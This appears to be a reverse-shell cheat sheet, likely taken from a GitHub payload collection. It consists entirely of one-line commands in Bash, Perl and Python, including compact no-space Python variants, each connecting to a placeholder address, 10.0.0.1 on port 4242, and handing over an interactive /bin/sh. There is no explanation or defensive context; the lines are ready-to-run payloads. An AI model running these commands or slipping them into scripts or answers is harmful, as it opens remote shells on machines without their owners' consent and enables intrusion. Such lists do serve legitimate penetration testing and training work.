# Reverse Shells

## Bash TCP

* ```bash -i >& /dev/tcp/10.0.0.1/4242 0>&1```{.Reverse_Shells_Code_Block}

* ```0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196```{.Reverse_Shells_Code_Block}

* ```/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1```{.Reverse_Shells_Code_Block}

## Bash UDP

* ```sh -i >& /dev/udp/10.0.0.1/4242 0>&1```{.Reverse_Shells_Code_Block}

## Perl

* ```perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```{.Reverse_Shells_Code_Block}

* ```perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'```{.Reverse_Shells_Code_Block}


## Python
* ```export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'```{.Reverse_Shells_Code_Block}

* ```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```{.Reverse_Shells_Code_Block}

* ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'```{.Reverse_Shells_Code_Block}

* ```python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'```{.Reverse_Shells_Code_Block}

### IPv4 (No Spaces, Shortened)
* ```python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'```{.Reverse_Shells_Code_Block}

* ```python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'```{.Reverse_Shells_Code_Block}

* ```python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'```{.Reverse_Shells_Code_Block}
